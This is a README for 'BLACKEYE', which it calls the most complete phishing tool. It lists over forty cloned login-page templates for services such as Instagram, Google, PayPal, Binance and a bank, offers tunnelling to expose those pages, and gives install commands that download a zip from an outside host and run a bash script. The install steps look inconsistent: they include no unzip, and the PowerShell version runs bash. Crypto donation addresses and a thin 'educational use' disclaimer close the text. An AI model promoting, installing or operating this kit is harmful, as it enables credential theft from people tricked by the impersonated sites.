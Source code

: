 ## BLACKEYE v2.0 (Major Update on August 23, 2024 | New: Bank Template, Upcoming Localhost Feature, and More)
##### The tool is completely free now 

> [! Need Donations]
> Your donations play a vital role in expediting the project's completion. With your support, we can swiftly bring this enhanced version to life and continue delivering valuable updates. [1]: [https://www.buymeacoffee.com/myberp] "Buy Me a Coffee (myberp)"

-----------------------------------------------------------------------------------------------------------------------------
![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bkev3.png)

23:08:2024  Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bankofa.png)

[New Binance Email Support Clone for BLACKEYE v3.1 ](https://github.com/EricksonAtHome/bes)

### UPDATES :
##### UPDATES_TMP websites :          

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom      
                                                  [41] Binance Email Support     
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok      
          
##### Add:  Localtunnel
##### Update: Ngrok 
###   Contact me on Instagram : @EricksonHolding or on responded.erickson.elite

-----------------------------------------------------------------------------------------------------------------------------
### Coded/Upgraded by: @EricksonAtHome (https://github.com/EricksonAtHome/blackeye)

#### Credits (Copyright)
#### Phishing Pages generated by An0nUD4Y (https://github.com/An0nUD4Y):

#### Description
BLACKEYE is an upgrade from original ShellPhish Tool (https://shellphish.net) by thelinuxchoice under GNU LICENSE. It is the most complete Phishing Tool,  with 32 templates +1 customizable

## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

### Usage:
```
curl -O http://dsvr.blackeye.cloud/alld/blackeye.zip
cd blackeye
bash blackeye.sh
```
### Usage PowerShell:
```
Invoke-WebRequest -Uri http://dsvr.blackeye.cloud/alld/blackeye.zip -OutFile blackeye.zip
cd blackeye
bash blackeye.sh
```

### Introduction Video HOW INSTALL blackeye

[Watch the Introduction Video](https://www.dropbox.com/scl/fi/j9kn2cz4mk1uh3uz6cnnb/V-deo-31-3-24-17-07-24.mov?rlkey=j9gms5hmgaedz6pw7axi86gil&dl=0)


![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/hiws2.png)

### Donate! @EricksonHolding
Donate And Support:
-----------------------------------------------------------------------------------------------------------------------------
BTC: bc1qmz5qmhyfzrm9hn2gnus85exhry64a8zekyzjuu
-----------------------------------------------------------------------------------------------------------------------------
LTC: ltc1qk4cuts4w8202tr2efun4c380n6nsq4eafxlg4k
-----------------------------------------------------------------------------------------------------------------------------
